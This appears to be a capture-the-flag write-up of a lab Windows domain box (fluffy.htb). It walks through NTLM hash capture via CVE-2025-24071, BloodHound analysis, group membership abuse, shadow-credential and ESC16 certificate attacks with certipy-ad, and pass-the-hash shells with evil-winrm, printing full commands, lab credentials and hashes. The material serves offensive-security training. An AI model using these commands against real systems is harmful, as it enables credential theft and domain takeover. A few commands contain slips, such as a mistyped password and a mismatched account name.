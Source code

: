 # Enumeration

> To start off with we are given the following known credentials: `j.fleischman:J0elTHEM4n1990!`. It seems we can't directly winrm with these creds, so like always we can check them against LDAP and SMB.

![asdf](https://i.imgur.com/bghV28D.png)



> Now that we have a valid SMB/LDAP login, we can start enumerating shares and users.

![asdf](https://i.imgur.com/Jpr9wFC.png)

![asdfasdf](https://i.imgur.com/jHcH7BF.png)



> Seeing the read/write perms for the `IT` share, we should enumerate it and see what's inside. When we do we find some interesting files:

![asdfasdfasdf](https://i.imgur.com/T8YVeA3.png)



> We see two zip files along with their extracted contents along with a file called `Upgrade_Notice.pdf` We open this file in a PDF viewer and see that it's a report detailing vulnerabilities in the system, specifically containing CVE numbers and their associated severity.

![recentvulns](https://i.imgur.com/lWKB1IH.png)



> Looking into the most critical CVEs, one in particular caught my eye. `CVE-2025-24071`

# Foothold

## CVE-2025-24071

> According to [vicarius.io](https://www.vicarius.io/vsociety/posts/cve-2025-24071-spoofing-vulnerability-in-microsoft-windows-file-explorer-detection-scrip): 
>
> "*CVE-2025-24071 is a vulnerability in Microsoft Windows File Explorer that could allow attackers to capture NTLM credentials via crafted network shares, leading to credential theft and broader compromise opportunities.*"
>
> Upon further research I found a [proof of concept](https://github.com/0x6rss/CVE-2025-24071_PoC) that details an implementation of this vulnerability where, if a `.library-ms` file is extracted from a .rar archive, Windows Explorer automatically initiates an SMB authentication request. This can lead to NTLM hash disclosure, and is the exploit we are going to attempt first since we found some .zip files in the share.
>
> 

![make the zip](https://i.imgur.com/AajXCNh.png)

## Domain Enumeration

> After we extract and crack the hash for user `p.agila`, we want to again test these credentials against winrm, SMB, and LDAP to see if we have any new permissions with the new user. Unfortunately it seems we still cannot winrm into the system, and the SMB perms seem to still be the same. Struggling to find any way other way in with the `p.agila`, I thought to try collecting data to feed into bloodhound and see what comes back.



```bash
bloodhound-python --username=p.agila --password=prometheusx-303 --domain=fluffy.htb -ns 10.129.232.88 --collectionmethod=All
```



> The above command collects all domain information on the `fluffy.htb` domain and its structure. Plugging it into bloodhound we can see a path from `p.agila` to the `winrm` account through the following permission chain:

![pathtowinrm](https://i.imgur.com/aNiwB0c.png)



> Since the `winrm_svc` user has permissions to remote into the machine it might get us into the system. We also see that we `p.agila` is a member of the `Service Account Managers` group, which has the `GenericAll` permission on `Service Accounts`, which has `GenericWrite` to the `winrm_svc` account. The bloodhound tips show that we can generate shadow credentials that will allow us to steal the NTLM hash of `winrm_svc` and login with it.



## Shadow Credentials w/ Certipy

> The following command will add `p.agila` to the `Service Accounts` group, giving us `GenericWrite` over `winrm_svc`. This sets us up for a shadow credentials attack which should result in us receiving the accounts' NTLM hash.

```bash
bloodyAD --host 10.129.232.88 -d fluffy.htb -u p.agila -p 'prometheusx-303' add groupMember 'Service Accounts' p.agila
```



> Next we use `certipy-ad`'s one shot command to take our `p.agila` credentials and obtain the hash.

```bash
certipy-ad shadow auto -username P.AGILA@fluffy.htb -password 'prometheusx-303' -account winrm_svc
```



> This command will first check if the `winrm_svc` user exists and that `p.agila` has the necessary permissions on `winrm_svc` (GenericWrite, GenericAll) to perform the attack. It will then generate a new RSA key pair (private/public key) to create a self-signed certificate formatted for Active Directory. The `winrm_svc` account's `msDS-KeyCredentialLink` attribute will then be modified to contain the public key we generated before. This allows for the bypassing of password authentication by allowing certificate authentication instead. Public Key Cryptography for Initial Authentication (PKINIT) is then used to take that generated public key (the certificate) to requests a Ticket Granting Ticket (TGT) for the `winrm_svc` account. Then with some method that I don't fully understand the NTLM hash for the target account can be decrypted with our generated public key (the certificate) being a main part of it.

```bash
certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc
```

![get da hash for winrm_svc](https://i.imgur.com/0c3A45u.png)



## user.txt

> We can then use this hash to authenticate and get a shell through `evil-winrm`.

```bash
evil-winrm -i 10.129.232.88 -u winrm_svc -H '33bd09dcd697600edf6b3a7af4875767'
```

![got user flag](https://i.imgur.com/LPmOS86.png)



# Privilege Escalation

> After enumerating the machine a bit more, I felt that I should be looking at more domain abuse options since that's what yielded the initial access. Taking another look at the bloodhound graphs, there are other accounts that we might be able to access through the same method, namely `ca_svc` and `ldap_svc`.

## More Shadow Credentials

> We will start by again adding our user `p.agila` to the `Service Accounts` group since the box resets the groups frequently. Then we will run the same command as before to automatically create shadow credentials but for the `ca_svc` account.

```bash
certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheux-303' -account ca_svc
```

![more add group](https://i.imgur.com/HRtCQz3.png)



> With the NT hash for `ca_svc` we should be able to now authenticate to the system as this user. If we get more details about the account we can see that it is the Active Directory Certificate Service account for the system.

```bash
certipy-ad account -u 'ca_svc' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.129.192.252 -user 'ca_svc' read
```

![da ca account](https://i.imgur.com/IxuzwHP.png)



## Template Enumeration

> Normally these kinds of easy Windows boxes involves vulnerable templates, and since we have access to `ca_svc` it's probably a good idea to see what templates there are.

```bash
certipy-ad find -u 'ca_svc' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.129.192.252 -vulnerable -stdout
```

![what templates are there](https://i.imgur.com/ssJRQwU.png)



## Escalation Path 16 (ESC16)

> While no vulnerable certificate templates are shown, according to the above command output the certificate authority `fluffy-DC01-CA` may be vulnerable to `ESC16`. According to [the wiki](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally):

![ESC16 wiki](https://i.imgur.com/3PzxLI5.png)



> We own four accounts at this point: `j.fleischman`, `p.agila`, `winrm_svc`, and `ca_svc`. The above approach is pretty straightforward. Further down [in the wiki](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally) it even outlines the commands needed to exploit this vulnerability. We need to identify the UPN of the high-value target account, in this case it will just be `administrator`. 

```bash
certipy-ad account -u 'ca_svc' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.129.230.105 -user 'administrator' read
```

![read the admin account](https://i.imgur.com/TxoVL0a.png)



> Next we will change the UPN for `ca_svc` to be `administrator`

```bash
certipy-ad account -u 'ca_svc' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.129.230.105 -upn 'administrator' -user 'ca_svc' update
```

![change ca_svc upn to admin](https://i.imgur.com/cLml1tW.png)



> Then we request the certificate for `ca_svc`. Since we changed the UPN to be `administrator`, and because of `ESC16`, when we request this certificate, it will be for the Administrator account. It will save a .pfx file to be used later.

```bash
certipy-ad req -dc-ip 10.129.230.105 -u 'ca_svc' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
```

![administrator.pfx](https://i.imgur.com/LiwvaH9.png)



> We then have to change back `ca_svc`'s UPN to "ca_svc" from "administrator".

```bash
certipy-ad account -dc-ip 10.129.230.105 -u 'ca_svc' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
```

![change back UPN](https://i.imgur.com/HzpAVTw.png)



> Lastly, we authenticate to the domain with saved `administration.pfx` to end up with the Administrator accounts hash.

```bash
certipy-ad auth -dc-ip 10.129.230.105 -pfx administrator.pfx -username 'administrator' -domain 'fluffy.htb'
```

![admin hash](https://i.imgur.com/IrKtnFb.png)



## root.txt

> Finally, we use can pass the administrator's hash via `evil-winrm` to get the root flag:

```bash
evil-winrm -i 10.129.230.105 -u administrator -H '8da83a3fa618b6e3a00e93f676c92a6e'
```

![root](https://i.imgur.com/aMvbCMS.png)